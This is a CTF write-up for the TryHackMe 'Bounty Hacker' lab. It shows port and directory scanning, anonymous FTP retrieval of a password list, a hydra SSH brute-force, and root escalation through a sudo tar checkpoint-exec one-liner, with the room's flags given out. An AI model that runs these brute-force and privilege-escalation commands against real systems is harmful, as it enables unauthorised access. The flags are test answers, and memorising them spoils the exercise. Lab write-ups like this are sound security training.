 ## Bounty Hacker - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/cowboyhacker)

<i>You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!</i> 

**IP: 10.10.192.55**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Gobuster, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- As always start with Nmap and Gobuster.

  ```
  nmap -sC -sV -T5 -p- 10.10.192.55

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.8.120.52
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 4
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_Can't get directory listing: TIMEOUT
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
  |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
  |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.192.55/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 277]
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /images               (Status: 301) [Size: 313] [--> http://10.10.192.55/images/]
  /index.html           (Status: 200) [Size: 969]
  /server-status        (Status: 403) [Size: 277]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited web page I found nothing except GOATED ANIME EVER OFC!!! ❤️
  
- Since we can login as Anonymous with FTP, let's do that. There's two files in that directory, get them both to your Kali.

  ```
  ftp 10.10.192.55
  Anonymous
  
  
  ftp> ls
  229 Entering Extended Passive Mode (|||64010|)
  pwd
  ^C
  receive aborted. Waiting for remote to finish abort.
  ftp> 
  ftp> passive
  Passive mode: off; fallback to active mode: off.
  ftp> ls
  200 EPRT command successful. Consider using EPSV.
  150 Here comes the directory listing.
  -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
  -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
  226 Directory send OK.
  ftp> pwd
  Remote directory: /

  cat task.txt    
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  
  -lin
  
  cat locks.txt 
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  dRa6oN5YNDiCATE
  ReDDR4g0n5ynDIc4te
  R3Dr4gOn2044
  RedDr4gonSynd1cat3
  R3dDRaG0Nsynd1c@T3
  Synd1c4teDr@g0n
  reddRAg0N
  REddRaG0N5yNdIc47e
  Dra6oN$yndIC@t3
  4L1mi6H71StHeB357
  rEDdragOn$ynd1c473
  DrAgoN5ynD1cATE
  ReDdrag0n$ynd1cate
  Dr@gOn$yND1C4Te
  RedDr@gonSyn9ic47e
  REd$yNdIc47e
  dr@goN5YNd1c@73
  rEDdrAGOnSyNDiCat3
  r3ddr@g0N
  ReDSynd1ca7e
  ```

- Beautiful, we even have brute force material, let's do it.

  ```
  hydra -l lin -P locks.txt 10.10.192.55 ssh
  [22][ssh] host: 10.10.192.55   login: lin   password: RedDr4gonSynd1cat3
  1 of 1 target successfully completed, 1 valid password found
  ```

---

## 🧍 User Privilege Escalation

- After logging in with SSH, first flag is already there. Moving to root flag.

  ```
  lin@bountyhacker:~/Desktop$ pwd
  /home/lin/Desktop
  
  lin@bountyhacker:~/Desktop$ ls
  user.txt
  
  lin@bountyhacker:~/Desktop$ cat user.txt 
  THM{CR1M3_SyNd1C4T3}
  ```
  
---

## 👑 Root Privilege Escalation

- For this one `sudo -l` did all the job, you can find the exploit on GTFOBins.

  ```
  lin@bountyhacker:~/Desktop$ sudo -l
  [sudo] password for lin: 
  Matching Defaults entries for lin on bountyhacker:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User lin may run the following commands on bountyhacker:
      (root) /bin/tar
  
  lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  tar: Removing leading `/' from member names
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  THM{80UN7Y_h4cK3r}
  ```
  
- That's all folks, I still can't believe that I did this CTF in less than 5 minutes lol. Happy Hacking!

---

## 🏁 Flags

- **User Flag**: `THM{CR1M3_SyNd1C4T3}`
- **Root Flag**: `THM{80UN7Y_h4cK3r}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `/`

- What did I learn?
  `That I improved my skills a lot, I finished this CTF in less than 5 min. Started at 22:03 and finished at 22:07.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
